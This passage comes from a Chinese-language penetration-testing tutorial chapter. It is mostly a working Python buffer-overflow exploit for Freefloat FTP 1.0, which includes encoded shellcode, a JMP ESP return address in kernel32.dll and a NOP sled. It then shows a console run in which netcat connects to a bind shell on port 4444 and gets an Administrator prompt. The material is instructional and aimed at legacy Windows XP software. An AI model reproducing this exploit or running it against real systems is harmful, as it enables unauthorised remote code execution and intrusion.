 ```py
    "\x63\x4d\xe7\x79\x74\xb2\xd2\x3e\xea\x4d\xdc\x3e\x22\x8a"
    "\x88\x6e\x5c\x3b\xb0\xe4\x9c\xc4\x65\xaa\xcc\x6a\xd5\x0b"
    "\xbd\xca\x85\xe3\xd7\xc4\xfa\x14\xd8\x0e\x8d\x12\x16\x6a"
    "\xde\xf4\x5b\x8c\xf1\x58\xd5\x6a\x9b\x70\xb3\x25\x33\xb3"
    "\xe0\xfd\xa4\xcc\xc2\x51\x7d\x5b\x5a\xbc\xb9\x64\x5b\xea"
    "\xea\xc9\xf3\x7d\x78\x02\xc0\x9c\x7f\x0f\x60\xd6\xb8\xd8"
    "\xfa\x86\x0b\x78\xfa\x82\xfb\x19\x69\x49\xfb\x54\x92\xc6"
    "\xac\x31\x64\x1f\x38\xac\xdf\x89\x5e\x2d\xb9\xf2\xda\xea"
    "\x7a\xfc\xe3\x7f\xc6\xda\xf3\xb9\xc7\x66\xa7\x15\x9e\x30"
    "\x11\xd0\x48\xf3\xcb\x8a\x27\x5d\x9b\x4b\x04\x5e\xdd\x53"
    "\x41\x28\x01\xe5\x3c\x6d\x3e\xca\xa8\x79\x47\x36\x49\x85"
    "\x92\xf2\x79\xcc\xbe\x53\x12\x89\x2b\xe6\x7f\x2a\x86\x25"
    "\x86\xa9\x22\xd6\x7d\xb1\x47\xd3\x3a\x75\xb4\xa9\x53\x10"
    "\xba\x1e\x53\x31")
#7C874413 FFE4 JMP ESP kernel32.dll
ret = struct.pack('&lt;L', 0x7C874413)
padding = "\x90" * 150
crash = "\x41" * 246 + ret + padding + shellcode
print "\
    [*] Freefloat FTP 1.0 Any Non Implemented Command Buffer Overflow\n\
    [*] Author: Craig Freyman (@cd1zz)\n\
    [*] Connecting to "+target
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    s.connect((target, 21))
except:
    print("[-] Connection to "+target+" failed!")
    sys.exit(0)
print("[*] Sending " + 'len(crash)' + " " + command +" byte crash...")
s.send("USER anonymous\r\n")
s.recv(1024)
s.send("PASS \r\n")
s.recv(1024)
s.send(command +" " + crash + "\r\n")
time.sleep(4) 
```

下载并复制一个 FreeFloat FTP 到 Windows XP SP2 或者 Windows XP SP3 的电脑上之后，我们可以测试 Craig Freyman 的 exploit。注意，他用的 shellcode 是绑定了 TCP 端口 4444 的脆弱的目标。所以我们可以运行我们的 exploit 脚本或者`netcat`连接到目标主机的 4444 端口。如果一切都成功了，现在我们已经获取了目标主机的命令行提示。

```py
attacker$ python freefloat2-overflow.py 192.168.1.37 PWND
[*] Freefloat FTP 1.0 Any Non Implemented Command Buffer Overflow
[*] Author: Craig Freyman (@cd1zz)
[*] Connecting to 192.168.1.37
[*] Sending 768 PWND byte crash...
attacker$ nc 192.168.1.37 4444
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\Documents and Settings\Administrator\Desktop\&gt; 
```

## 本章总结

恭喜你！在我们的渗透测试中我们可以使用我们自己编写的工具。我们通过编写我们自己的端口扫描器开始，然后审查 SSH，FTP，SMB 协议的攻击方法，最后我们用 Python 构建了我们自己的 0day exploit。

